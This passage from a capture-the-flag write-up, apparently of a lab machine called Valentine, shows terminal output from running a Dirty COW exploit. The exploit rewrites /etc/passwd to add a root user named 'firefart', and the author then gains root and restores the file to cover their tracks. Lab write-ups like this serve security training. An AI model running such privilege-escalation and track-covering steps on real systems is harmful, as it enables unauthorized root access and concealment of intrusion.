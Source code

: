 Now let's try running our exploit!

```
hype@Valentine:~/Downloads$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: 7fa120048000
hype@Valentine:~/Downloads$ head /etc/passwd
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash
/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
hype@Valentine:~/Downloads$ su firefart
Password: 
firefart@Valentine:/home/hype/Downloads# ls -l /root
total 8
-rwxr-xr-x 1 firefart root 388 Dec 13  2017 curl.sh
-rw-r--r-- 1 firefart root  33 Dec 13  2017 root.txt
```

Cool!  Let's cover up our tracks..

```
firefart@Valentine:/home/hype/Downloads# cd /etc
firefart@Valentine:/etc# ls -l passwd*
-rw-r--r-- 1 firefart root 1711 Dec 11  2017 passwd
-rw------- 1 firefart root 1711 Dec 11  2017 passwd-
firefart@Valentine:/etc# mv passwd- passwd
```
